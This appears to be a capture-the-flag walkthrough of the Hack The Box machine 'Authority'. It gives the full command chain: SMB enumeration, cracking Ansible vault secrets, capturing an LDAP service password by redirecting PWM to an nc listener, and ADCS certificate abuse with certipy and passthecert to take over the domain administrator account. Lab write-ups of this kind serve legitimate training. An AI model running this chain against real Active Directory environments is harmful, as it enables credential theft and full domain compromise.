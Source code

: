 **Ping**
```
ping 10.10.11.222
```
![[Pasted image 20240614144237.png]]

Nmap default Scan
```
nmap 10.10.11.222 -oN dnmap
```
![[Pasted image 20240614144713.png]]

Nmap Script and Service Scan
```
nmap 10.10.11.222 -sC -sV --open -T5 -oN snmap
```
![[Pasted image 20240614155526.png]]
![[Pasted image 20240614155610.png]]
![[Pasted image 20240614155641.png]]

Nmap All Port Scan
```
nmap 10.10.11.222 -sC -sV -p- --open -T5 -oN anmap
```
![[Pasted image 20240614155923.png]]
New ports found, but not useful.

**SMB Enumeration**
So will start with smb Enumeration
```
smbclient -U '' -L \\\\10.10.11.222\\
```
![[Pasted image 20240614160151.png]]
Found some shares without password

```
smbclient -N //10.10.11.222/Development
```
![[Pasted image 20240614160457.png]]
Enumerate the share further

After some enumeration in the share, i found there is some potential info in the PWM directory
![[Pasted image 20240614172133.png]]

Because Port 8443 has PWM running
![[Pasted image 20240614172249.png]]

Found admin creads in a file
![[Pasted image 20240614172322.png]]

But it doesn't work
```
crackmapexec winrm 10.10.11.222 -u administrator -p Welcome1
```
![[Pasted image 20240614172537.png]]
Will enumerate other folders

Found some interesting hashes the /default/main.yml file
![[Pasted image 20240614172644.png]]
![[Pasted image 20240614172659.png]]



Will decrypt it using John, first I saved the hashes in correct format by removing the extra space and lines.
![[Pasted image 20240614172930.png]]

Decryption Part
```
ansible2john ldap_admin pwm_admin_pass pwm_admin_login | tee vault_hashes
```
![[Pasted image 20240614173005.png]]

```
john --wordlist=/usr/share/wordlists/rockyou.txt vault_hashes
```
It will decrypt the vault password 

This are the cracked vault passwords
```
john vault_hashes --show
```
![[Pasted image 20240614173238.png]]

Now will find passwords of the users using the vault password
```
cat ldap_admin | ansible-vault decrypt
```
```
cat pwm_admin_pass | ansible-vault decrypt
```
```
cat pwm_admin_login | ansible-vault decrypt
```
![[Pasted image 20240614173504.png]]

Now we have passwords, will try to get initial foothold
```
crackmapexec smb 10.10.11.222 -u svc_pwm -p pass.txt
```
![[Pasted image 20240614175258.png]]
it show passwords are valid but can't list shares.

Using **'pWm_@dm!N_!23'** this password, we can at least login to configuration settings
![[Pasted image 20240614175357.png]]

And also we able to access the configuration editor, and changed the ldap path to my ip to garb any key info
![[Pasted image 20240614175707.png]]
Changed ldap url to point my ip in ldap default port ldap://10.10.14.2:389
and clicked the test ldap profile button

Before testing the ldap profile I have set up an nc listener on port 389 to capture any response
```
nc -nvlp 389
```
![[Pasted image 20240614175948.png]]
We captured the Service acc password is (lDaP_1n_th3_cle4r!) remove the **htb** and **0p** in the end

Will try this to get initial foothold
```
crackmapexec winrm 10.10.11.222 -u svc_ldap -p 'lDaP_1n_th3_cle4r!'
```
![[Pasted image 20240614180716.png]]

Evil-winrm
```
evil-winrm -i 10.10.11.222 -u svc_ldap -p 'lDaP_1n_th3_cle4r!'
```
![[Pasted image 20240614180850.png]]

I think still we haven't got a admin privilege I guess, because though he got pwn3d sign in crackmaexec, our privileges shows, we are not an admin
![[Pasted image 20240614180941.png]]

```
net user svc_ldap
```
![[Pasted image 20240614181301.png]]

Got our user.txt from 
![[Pasted image 20240614181146.png]]

Will jump to Privilege Escalation....!

We a Privilege to add computers to the domain
```
whoami /priv
```
![[Pasted image 20240614193426.png]]

Also it is always a good practise to check the ADCS
```
certipy find -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -dc-ip 10.10.11.222 -vulnerable
```
![[Pasted image 20240614193629.png]]
```
cat 20240614184507_Certipy.txt
```
![[Pasted image 20240614193703.png]]
![[Pasted image 20240614193748.png]]
![[Pasted image 20240614193830.png]]

So I have added a new computer to the domain
```
certipy req -username 'ComputerName$' -password password -ca AUTHORITY-CA -dc-ip 10.10.11.222 -template CorpVPN -upn administrator@authority.htb -dns authority.htb
```
![[Pasted image 20240614193947.png]]

Writing .key file
```
certipy cert -pfx administrator_authority.pfx -nocert -out administrator.key
```
![[Pasted image 20240614194154.png]]

Writing .crt file
```
certipy cert -pfx administrator_authority.pfx -nokey -out administrator.crt
```
![[Pasted image 20240614194241.png]]

Now changing the Domain Admin Password
```
python passthecert.py -action modify_user -crt administrator.crt -key administrator.key -domain authority.htb -dc-ip 10.10.11.222 -target administrator -new-pass
```
![[Pasted image 20240614194340.png]]

Now we can use Evil-winrm to get a remote session
```
evil-winrm -i 10.10.11.222 -u administrator -p Sk3qknFNi7p4wyPatgi2Z24qfpYp8aMr
```
![[Pasted image 20240614194453.png]]
Finally We got Admin Shell.

Will get root.txt from Administrator's Desktop
![[Pasted image 20240614194603.png]]




Doneeeeee With Authority…:) 